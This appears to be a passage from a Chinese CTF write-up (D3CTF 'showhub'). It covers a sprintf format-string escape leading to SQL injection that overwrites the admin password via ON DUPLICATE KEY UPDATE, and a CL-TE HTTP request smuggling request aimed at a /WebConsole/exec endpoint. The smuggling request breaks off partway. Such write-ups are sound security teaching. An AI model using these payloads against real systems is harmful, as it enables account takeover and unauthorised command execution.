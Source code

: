 ![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2051.png)

注册时传入id为null，那么实质上sql语句是

INSERT INTO `$this->tbname` SET %s VALUE(%s)

格式化字符串逃逸

`INSERT INTO `user`(`username`,`password`) VALUE('admin','wumonster') ON DUPLICATE KEY UPDATE password='8c1e24558a1317623e71a0def84dba438dfda181d7d96c1223456825b9e1a2f9';`

username=admin%1$',%1$'wumonster%1$') ON DUPLICATE KEY UPDATE password=%1$'8c1e24558a1317623e71a0def84dba438dfda181d7d96c1223456825b9e1a2f9%1$'#&password=123

### ATS HTTP走私

用CL-TE的方法走私

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理`Content-Length`这一请求头，而后端服务器会遵守`RFC2616`的规定，忽略掉`Content-Length`，处理`Transfer-Encoding`
这一请求头

```
POST / HTTP/1.1
Host: e4550371bc.showhub.d3ctf.io
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8e7cipookibqvk2c3govosvfms
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 660
Transfer-Encoding: chunked

0

POST /WebConsole/exec HTTP/1.1
Host: e4550371bc.showhub.d3ctf.io
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
```